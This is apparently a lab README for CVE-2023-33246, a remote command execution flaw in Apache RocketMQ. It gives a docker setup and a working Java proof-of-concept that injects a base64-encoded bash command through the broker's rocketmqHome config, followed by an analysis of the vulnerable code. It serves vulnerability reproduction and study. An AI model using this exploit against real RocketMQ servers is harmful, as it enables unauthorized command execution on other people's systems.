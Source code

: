 # Apache RocketMQ Remote Command Execution (CVE-2023-33246)

[中文版本(Chinese version)](README.zh-cn.md)

RocketMQ is a distributed messaging and streaming platform with low latency, high performance and reliability, trillion-level capacity and flexible scalability.

For RocketMQ versions 5.1.0 and below, under certain conditions, there is a risk of remote command execution. Several components of RocketMQ, including NameServer, Broker, and Controller, are leaked on the extranet and lack permission verification, an attacker can exploit this vulnerability by using the update configuration function to execute commands as the system users that RocketMQ is running as. Additionally, an attacker can achieve the same effect by forging the RocketMQ protocol content. To prevent these attacks, users are recommended to upgrade to version 5.1.1 or above for using RocketMQ 5.x or 4.9.6 or above for using RocketMQ 4.x.

References:

- <https://lists.apache.org/thread/1s8j2c8kogthtpv3060yddk03zq0pxyp>
- <https://github.com/I5N0rth/CVE-2023-33246>

## Start

Use `docker compose` or `docker-compose` start

```shell
docker compose up -d
```

## PoC

Use `IDEA` , `Eclipse` or `IDE` to create a new `Maven` project, import dependency:

```xml
<dependencies>
    <!-- https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools -->
    <dependency>
        <groupId>org.apache.rocketmq</groupId>
        <artifactId>rocketmq-tools</artifactId>
        <version>5.1.0</version>
    </dependency>
</dependencies>
```

PoC：

```java
package org.example;

import org.apache.rocketmq.client.exception.MQClientException;
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;
import java.util.Base64;
import java.util.Properties;

public class App {
    public static void main(String[] args) throws Exception {
        String targetHost = "your-ip";
        String targetPort = "10911";

        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd("touch /tmp/success"));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }

    private static String getCmd(String cmd) {
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }
}

```

After the console successfully outputs the new configuration, please wait for about 30 seconds and the `touch /tmp/success` has been executed:

![](screenshot.png)

## Simple Analysis

Why modify the `filterServerNums` property: If the configured `filterServerNums` is 0, the calculated `more` will also be 0, so it is not possible to enter the `callShell` method to execute commands.

```java
public void createFilterServer() {
    int more =
        this.brokerController.getBrokerConfig().getFilterServerNums() -
        this.filterServerTable.size();
    String cmd = this.buildStartCommand();
    for (int i = 0; i < more; i++) {
        FilterServerUtil.callShell(cmd, log);
    }
}

public static void callShell(final String shellString, final Logger log) {
    Process process = null;
    try {
        String[] cmdArray = splitShellString(shellString);
        process = Runtime.getRuntime().exec(cmdArray);
        process.waitFor();
        log.info("CallShell: <{}> OK", shellString);
    } catch (Throwable e) {
        log.error("CallShell: readLine IOException, {}", shellString, e);
    } finally {
        if (null != process)
            process.destroy();
    }
}
```

Why modify the `rocketmqHome` attribute: When building a command, the `splitShellString` method is ultimately called to split the parameters according to spaces. Therefore, it cannot be a `NamesrvAddr` parameter, but can only be the starting `rocketmqHome` parameter. However, due to parameter segmentation rules, stricter commands and clever techniques are required to execute.

```java
private String buildStartCommand() {
    String config = "";
    if (BrokerStartup.CONFIG_FILE_HELPER.getFile() != null) {
        config = String.format("-c %s",
        BrokerStartup.CONFIG_FILE_HELPER.getFile());
    }
    if (this.brokerController.getBrokerConfig().getNamesrvAddr() != null) {
        config += String.format(" -n %s",
        this.brokerController.getBrokerConfig().getNamesrvAddr());
    }
    if (NetworkUtil.isWindowsPlatform()) {
        return String.format("start /b %s\\bin\\mqfiltersrv.exe %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    } else {
        return String.format("sh %s/bin/startfsrv.sh %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    }
}
```
